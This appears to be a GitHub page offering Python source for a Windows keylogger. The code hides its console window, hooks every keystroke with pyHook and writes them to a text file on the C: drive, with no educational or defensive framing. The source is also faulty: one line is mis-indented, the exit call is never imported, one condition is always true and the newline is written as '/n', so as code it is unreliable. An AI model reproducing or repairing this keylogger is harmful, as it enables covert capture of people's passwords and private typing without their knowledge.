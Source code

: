 # keylogger-in-python
keylogger for windows using python
import win32api
import win32console
import win32gui
import pythoncom, pyHook
 
win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)
 
def OnKeyboardEvent(event):
    if event.Ascii==5:
        _exit(1)
    if event.Ascii !=0 or 8:
    #open output.txt to read current keystrokes
        f = open('c:\output.txt', 'r+')
        buffer = f.read()
        f.close()
    # open output.txt to write current + new keystrokes
        f = open('c:\output.txt', 'w')
        keylogs = chr(event.Ascii)
        if event.Ascii == 13:
        keylogs = '/n'
        buffer += keylogs
        f.write(buffer)
        f.close()
# create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent
# set the hook
hm.HookKeyboard()
